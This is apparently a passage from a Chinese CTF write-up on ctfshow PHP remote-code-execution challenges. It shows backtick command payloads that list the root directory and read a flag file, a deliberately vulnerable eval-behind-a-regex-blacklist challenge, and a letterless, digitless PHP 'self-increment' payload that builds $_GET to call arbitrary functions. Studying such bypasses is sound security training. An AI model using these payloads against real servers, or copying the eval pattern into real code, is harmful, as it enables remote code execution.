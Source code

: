 ```php
code=echo `ls /`;
code=echo `tac /f1agaaa`;
```

## RCE2（自增绕过）

```php
<?php
//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow)) {
        if (!preg_match("/[a-zA-Z0-9@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("Are you hacking me AGAIN?");
        }
    }else{
        phpinfo();
    }
}
?>
构造出来$_GET[_]($_GET[__]);然后直接命令执行即可，采用自增绕过
```

```php
$_=''.[];
$_=$_['_'];
$_++;
$_++;
$_++;
$__=++$_;
$_++;
$___=++$_;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_++;
$_=_.$___.$__.$_;
$$_[_]($$_[__]);
```
